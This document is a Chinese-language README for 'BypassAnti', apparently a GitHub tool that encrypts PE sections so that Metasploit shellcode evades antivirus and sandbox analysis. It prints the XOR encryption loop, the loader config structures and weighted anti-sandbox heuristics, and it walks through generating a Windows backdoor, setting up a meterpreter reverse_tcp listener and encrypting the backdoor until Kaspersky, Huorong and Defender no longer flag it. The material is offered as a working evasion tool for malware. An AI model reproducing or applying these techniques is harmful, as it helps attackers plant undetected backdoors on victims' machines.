# 描述

通过对区段的加密实现绕过AV静态查杀。经过简单测试，将msf生成的shellcode进行加密后可绕过常见的杀软，如360、火绒、卡巴基斯、Windows Defender。

# 可运行的系统

| Windows | Linux |
| ------- | ----- |
| ✔️       | ✔️     |

# 帮助

```
Usage: BypassAnti
        -f              (required) filename
        -p              (optional) parent process,used to verify whether the sandbox runs.default null
        -s              (optional) section name to be encrypted defaults '.text'
Example: BypassAnti -f filename -p explorer.exe -s .text .data
```

`-p`主要用于做反沙箱检测，当决定自身程序只能由xxx进程拉起时，可设置该选项进行检测。例如常规启动进程都是双击运行，因此父进程为`explorer.exe`。使用如下命令进行设置父进程。

```
BypassAnti.exe -f filepath -p explorer.exe
```

加密后的程序只能通过双击运行，若通过其他方式运行，比如cmd.exe、调试器、powershell等间接执行，则会执行失败。

# 原理

>  BypassAnti为主程序，Loader为壳加载器。

BypassAnti根据输入的文件判断x86/x64选择对应的loader进行加载，将loader代码段内容读取，并加密区段，算法如下：

```c++
LoaderConfig.packs[i].xor_key = rand() % time(0)+time(0);//设置key
for (int j = 0; j < sec->Misc.VirtualSize; j++)
{
	uint8_t origin_byte = 0;
    pe.Read<uint8_t>(sec->PointerToRawData + j, origin_byte);
    pe.Write<uint8_t>(sec->PointerToRawData + j, origin_byte ^ static_cast<uint8_t>(____rotl(LoaderConfig.packs[i].xor_key, j) + j));
}
```

然后生成下列配置项：

```c++
struct packInfo
{
	uint64_t seg_rva;
	uint64_t seg_size;
	uint64_t xor_key;
};

struct ShadowApi
{
	uint64_t lpfnLoadLibraryW;
	uint64_t lpfnVirtualProtect;
	uint64_t lpfnGetProcAddress;
	uint64_t lpfnCreateFileW;
	uint64_t lpfnReadFile;
	uint64_t lpfnCloseHandle;
	uint64_t lpfnDeleteFileW;
	uint64_t lpfnFindFirstFileW;
	uint64_t lpfnFindNextFileW;
	uint64_t lpfnFindClose;
	uint64_t lpfnCreateToolhelp32Snapshot;
	uint64_t lpfnProcess32FirstW;
	uint64_t lpfnProcess32NextW;
	uint64_t lpfnGetTempPathW;
	uint64_t lpfnGetCurrentProcessId;
};

struct TCONFIG
{
	uint64_t			loader_rva;			//新增节大小rva
	uint64_t			loader_size;		//新增节大小
	struct packInfo		packs[MAX_PACK];	//记录需要加密的区段
	uint64_t			oep;				//原始入口
	uint64_t			origin_base;		//原始镜像基址,用于loader修复重定向
	uint64_t			arch64;				//x86还是x64
	wchar_t				parentname[256];	//父进程名
	struct ShadowApi	ShadowApiPtr;		//函数指针
}LoaderConfig;
```

最后创建新节区后一并写入到原文件中。

---

Loader通过VS设置无入口点来去除crt，并且使其生成为dll文件。这样能得到最干净的shellcode。

loader中使用的所有函数都使用PEB获取。



其中检测沙箱使用权值计算，并且检测方式有：

- 检测临时目录下的文件数是否小于150
- 检测Roaming下的文件数是否小于20
- 检测recent下的文件数是否小于50
- 检测父进程是否为预设一致（如果存在设置）

最后根据权值是否大于60作为判断沙箱。



其余则与BypassAnti进行反操作（解密后执行原入口）。

# 编译

## BypassAnti

- windows

vs编译即可

- Linux

```bash
g++  *.cpp -o bypassanti
```

## Loader

使用VS编译，并且x86/x64需要设置如下配置：











然后编译即可。

# 使用例子

## 生成windows后门

使用kali生成一段window后门。



使用C++代码进行执行。



编译得到exe后在kali启动监听，然后运行程序。

```powershell
msfconsole 
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.0.107
lhost => 192.168.0.107
msf6 exploit(multi/handler) > set lport 6666
lport => 6666
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.0.107:6666 
```

成功监听。



## 对后门加密

使用BypassAnti进行处理程序，由于生成的shellcode在.data区段中，因此对该区段进行加密。

```powershell
BypassAnti.exe -f filepath -s .data
```



重新执行。同样执行成功。



## 查杀

### 卡巴斯基收费版

未加密前。



加密后。



### 火绒



### 360


### Window Defender



### 微云沙箱



# 支持

| File Type     | x86  | x64  |
| ------------- | ---- | ---- |
| PE executable | ✔️    | ✔️    |

# 注意

1、不支持二次处理，如被upx、vmp等加壳程序处理的程序加密会失败。

2、部分节区加密后可能会无法运行，例如某区段同时为代码段、重定向表、导入表；

# 额外

项目中所有包含字符串解密均通过`https://zerosum0x0.blogspot.com/2017/08/obfuscatedencrypted-cc-online-string.html`进行生成。


